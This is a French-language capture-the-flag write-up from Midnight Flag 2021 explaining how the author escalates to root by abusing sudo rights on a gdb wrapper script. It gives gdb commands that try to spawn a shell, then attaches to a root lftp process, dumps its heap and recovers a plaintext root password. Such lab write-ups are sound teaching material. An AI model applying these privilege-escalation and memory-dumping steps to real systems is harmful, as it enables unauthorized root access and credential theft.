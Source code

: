 # Route Moi - root
## Présentation

Il faut maintenant élever ses privilèges jusqu'à root.

Ce challenge a été mon coup de coeur du Midnight Flag 2021 ! :) 

**Catégorie :** Réaliste
**Auteur :** Worty  
**Points :** 350

## Résolution

On profite d'avoir le pass de meltheboss pour s'ouvrir un petit SSH bien confort.  
Premier reflex de reconaissance : `sudo -l`

On découvre alors qu'on a les droits sudo pour un fichier `/usr/local/bin/gdb_fork.py`.  
Quand on lance ce fichier, un prompt nous demande d'indiquer un fichier à exécuter.

On pourrait imaginer qu'il s'agit donc d'un script qui ferait un eval() sur un autre fichier python.  
On se crée donc un fichier de test dans `/tmp` :

```
➜  echo 'print(1)' > /tmp/test.py
```

Lorsqu'on essaye de l'importer, le programme nous répond que le fichier doit respecter la syntaxe :

```
import gdb
gdb.execute('attach x')
gdb.execute('i a r')
gdb.execute('quit')
```

Il semblerait donc qu'on soit conffronté à une librairie pyton qui execute des commandes dans GDB.  
Ma première idée était de voir si on pouvait se spawn un petit shell :

```
gdb.execute('!sh')
gdb.execute('!bash')
gdb.execute('shell')
gdb.execute('python import pty; pty.spawn("/bin/sh")')
gdb.execute('python')
gdb.execute('python-interactive')
```

Mais sans succès. Mon attention a donc été attirée par la première ligne du script d'exemple qui parle d'attacher un processus (`attach x`). Comme rien n'est jamais là par hasard, on fait un petit tour dans les processus et on découvre en effet un lftp qui tourne avec les droits root et le pid `562`.

Nouvelle idée : attacher ce processus et essayer de voir si on peut pas retrouver un mot de passe dans la mémoire.

On se construit donc un nouvel exploit :

```
import gdb
gdb.execute('attach 562')
gdb.execute('info proc mappings')
```

qui fonctionne à merveille et nous donne nos adresses mémoire :

```
Mapped address spaces:

Start Addr           End Addr       Size     Offset objfile
0x55e8db79a000     0x55e8db8e9000   0x14f000        0x0 /usr/bin/lftp
0x55e8dbae9000     0x55e8dbaf2000     0x9000   0x14f000 /usr/bin/lftp
0x55e8dbaf2000     0x55e8dbaf8000     0x6000   0x158000 /usr/bin/lftp
0x55e8dbaf8000     0x55e8dbafa000     0x2000        0x0 

0x55e8dd0c5000     0x55e8dd144000    0x7f000        0x0 [heap]
```

On peut maintenant exporter le contenu de notre heap :

```
import gdb
gdb.execute('attach 562')
gdb.execute('dump memory out 0x55e8dd0c5000 0x55e8dd144000')
```

La commande `strings` n'est pas installée sur le serveur, on fait donc un scp pour récupérer le fichier `out` en local et après un petit parcours manuel on retrouve notre mot de passe : `th3sup3rr00tp4ssw0rd`.

Le flag se trouve dans `/root/flag.txt`.